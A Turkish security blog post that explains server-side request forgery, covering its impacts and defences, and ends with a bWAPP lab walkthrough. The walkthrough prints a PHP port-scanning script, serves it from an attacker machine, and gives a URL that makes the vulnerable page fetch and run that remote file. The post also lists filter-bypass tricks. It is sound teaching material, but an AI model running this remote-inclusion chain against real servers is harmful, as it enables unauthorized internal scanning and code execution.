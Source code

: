 ```yaml
---
title: "Server Side Request Forgery (SSRF) Nedir? Nasıl Önlem Alınır?"
author: Mümin Köykıran
date: "2021-07-16"
categories: 
  - "Siber Güvenlik"
  - "Web Güvenliği"
tags: 
  - "penetrasyon-testi"
  - "pentest"
  - "server-site-request-forgery"
  - "ssrf"
  - "ssrf-zafiyeti"
  - "xss"
  - "zafiyet"
image:
  src: /asset/server-side-request-forgery-ssrf-nedir/ssrf.jpg
---
```


Merhabalar, bu yazımda sizlere Server Side Request Forgery yani literatürde geçen kısaltmasıyla SSRF nedir? Nasıl kötüye kullanılır? Etkileri nelerdir? Nasıl önlem alınır? Bunlara değineceğiz.

Web uygulamalarında belirli bir kaynaktan dosya, url çekme gibi işlemlerde bu gibi zafiyetler ortaya çıkabilir. Web uygulaması kullanıcıya bir dosyayı, bir style kaynağını paylaştığı durumlarda olabilir. Bazı durumlarda web uygulaması yazılım güncellemesi gibi sebeplerle de uzak kaynakları alma veya url gibi kaynaklardan içerik aldıklarında güvenlik implementasyonlarına çok dikkat edilmeli. Eğer bu çalışmalar doğru yapılmazlar ise SSRF zafiyetleri doğmaktadır.

## SSRF Nedir?
SSRF kısaltmasının açılımı Server Side Request Forgery, Türkçe karşılığı olarak sunucu taraflı istek sahteciliğidir. En temel ifadesiyle kötü niyetli kişi; hedef sunucuya giden istekleri, zafiyetli olan web uygulamasındaki istekleri manipüle ederek isteklerin varış noktalarını değiştirmektedir. Çıkış sebebi ise uygulamanın geliştirilmesi sırasında uzak kaynakların çağrılmasına izin verilen domainlerin ve protokollerin gerekli denetimden geçmemiş olmasıdır.

SSFR zafiyetinin tehlikeli tarafı, kullanılarak diğer tehlikeli zafiyetlere yükseltme işlemi yapılıyor olmasıdır. SSFR zafiyeti saldırıları kullanılarak aşağıdaki durumları gerçekleştirmek mümkündür.

## SSRF Zafiyetinin Etkileri
* Intranet veya public bir ağdan normal olarak erişilemeyen iç ağlarda port servis vb. keşif ve saldırı işlemleri,
* Siteler arası betik çalıştırma, (SSRF to Reflected XSS)
* Server içerisinde uzaktan kod çalıştırma, (SSRF to RCE)
* Sunucuda kritik dosyaların içeriğinin okunması, (SSRF to LFI)
* URL şemaları kullanarak sunucuya işlem yaptırılması, (ftp://, dict://, http://, gopher://, file:// vb.)
* Cloud servislerin meta-data bilgilerinin çekilmesi,
* Whitelist ve DNS çözümlemelerinin aşılması gibi faaliyetler de bulunulabilir.

## SSRF Zafiyetinin Önlenmesi
Öncelikle kullanıcıdan veri alan tüm noktalar çok detaylı bir şekilde kontrol edilmelidir. Kullanıcıdan gelen her şey zararlı olabilme ihtimaline dayanarak göz önünde bulundurulmalıdır. SSRF zafiyetini önlemek için, server tarafından uzak kaynakları çağırmasına izin verilen domainlerin ve bu protokollerin whitelist yöntemi kullanılmalıdır.

Bununla birlikte server tarafından kullanıcıdan gelen veri girdisinin, server dışına doğrudan yapılabilecek isteklerde kullanılmaması önerilir. Ayrıca kullanıcı verilerini filtrelenmesi de şiddetle önerilir. Fakat bu yöntemde çok fazla esnek davranmak gerekir bunun nedeni olabilecek tüm senaryoları baz alıp buna yönelik bir filtre yapmak neredeyse imkansızdır. Bu sebeple bu durumunu pratikte uygulamak oldukça zordur.

Durumun zorluğunu anlatabilmek adına aşağıdaki durumunu ele alalım.

* Dahili bir ağdaki IP adresine çevirilecek olan IP adreslerini encode edilmiş şekilde kullanabilir.
* 1 -> localhost ile aynı
* 123.123.123 -> localhost ile aynı
* Dahili IP adreslerine host isimleri sağlayabilir.
* Hostname’in sonuna nokta koyarak blacklist bypass edebilir.
Bu ve daha fazlası olacak şekilde bir çok bypass yöntemi bulunmaktadır. Bu nedenle sunucu adına istekte bulunan işlevlerde kullanıcı girişini önlemek en sağlıklı olacaktır.

## Web Uygulamalarında SSRF Zafiyetlerini Tespit Etmek
Web uygulamalarında SSRF zafiyetini tespit etme işlemi için otomatize araçlar (Acunetix, Netsparker vb.) kullanılması önerilir. Yada yarı otomatik scriptler kullanılarak belirli algoritmik mantıklar ile kullanıcıdan alına tüm input alanlarının teste tabi tutulması gerekir.

Buraya kadar olabilecek tüm konuları ele aldığımıza göre SSRF zafiyetini daha iyi anlamak adına aşağıdaki örneğimizi inceleyelim. bWAPP (buggy web application) üzerinde bir SSRF zafiyetinin kullanımını takip edelim.

![](/asset/{{page.id | replace:'/posts/',''}}/bwaapp.png)
**

bWAPP üzerinde SSRF Sekmesinde bu zafiyeti RFI sekmesi üzerinden SSRF kullanarak Port taraması yapmamızı istemekte. Port scan kısmına tıklarsanız size bu işlemi yapabilecek php kodlarını vermektedir. İsterseniz o url üzerindende tetikleyebilirsiniz. Fakat kendiniz o dosyayı indirip kendi atacker ipnizden ya da bir site üzerine yükleyerek tetikleyebilirsiniz.

![](/asset/{{page.id | replace:'/posts/',''}}/bwaapp-code.png)
**

Port scan sözcüğünün üzerine tıkladığınız açılan sayfa bu şekildedir. Şimdi bu kodu kopyalayarak atak yaparken kullanacağınız pc nin Desktop ına dosya oluşturarak yapıştırınız.

``` PHP
<?php
if(isset($_REQUEST["ip"]))
{
    //list of port numbers to scan
    $ports = array(21, 22, 23, 25, 53, 80, 110, 1433, 3306);
    $results = array();
    foreach($ports as $port)
    {
        if($pf = @fsockopen($_REQUEST["ip"], $port, $err, $err_string, 1))
        {
            $results[$port] = true;
            fclose($pf);
        }
        else
        {
            $results[$port] = false;        
        }
    }
 
    foreach($results as $port=>$val)
    {
        $prot = getservbyport($port,"tcp");
        echo "Port $port ($prot): ";

        if($val)
        {
            echo "<span style=\"color:green\">OK</span><br/>";
        }
        else
        {
            echo "<span style=\"color:red\">Inaccessible</span><br/>";
        }
    }
}
?>
```

Benim düzenlediğim dosya burada bWAPP üzerindeki dosyada XSS payloadıda bulunmaktaydı fakat onu çıkarttım denemek isteyenler o satırı ekleyebilirler. Şimdi bu kodu masaüstümüzde ssrf.txt adında bir dosya açıp içine yapıştırıyoruz.

![](/asset/{{page.id | replace:'/posts/',''}}/simplehttpserver.png)
**

Burda gördüğünüz işlem kendi makinamın Desktop dizinini kendi ip adresim üzerinden 8000 portu ile dışarıya açmama yarayan komuttur.

python -m SimpleHTTPServer PortNo
şeklindedir. Artık gelelim SSRF açığını kullanarak port tarama saldırımıza.

*http://192.168.2.35/bWAPP/rlfi.php?language=lang_en.php&action=go* normal  urlimizi bu fakat biz bu urlde language parametresinde biraz önce düzelttiğimiz ve yayına açtığımız ssrf.txt dosyasının urlini giriyoruz. Ve bunun önüne kendimiz bir ip parametresi tanımlıyoruz ve portlarını taranacak ip adresini giriyoruz. Bu ip adresi bWAPP ın kurulu olduğu sunucunun ipsi bu örneğimizde. Gördüğünüz gibi atak başarılı bir şekilde gerçekleşti ve port tarama sonuçları önümüze geldi. *http://192.168.2.35/bWAPP/rlfi.php?ip=192.168.2.35&language=http://192.168.2.228:8000/ssrf.txt&action=go*

![](/asset/{{page.id | replace:'/posts/',''}}/bwapp-apple.png)
**

Bu şekilde SSRF açıklığı bulunan bir sistemde proxy olarak kullanarak internal networke ulaşıp oradada keşif ve port taraması yapabilmek mümkündür.

## Reference

* https://kernelblog.org/2018/03/ssrf-guvenlik-zafiyeti-nedir/
* https://bksecurity.org/ssrf/
* https://gurelahmet.com/ssrf-server-side-request-forgery-zafiyeti/
* https://www.netsparker.com.tr/blog/web-guvenligi/ssrf-nedir-ssrf-nasil-onlenir/
* https://gaissecurity.com/bilgi/ssrf-server-side-request-forgery/
* https://medium.com/@ahmetumitbayram/server-side-request-forgery-sunucu-tarafl%C4%B1-i%CC%87stek-sahtecili%C4%9Fi-nedir-2d006d914799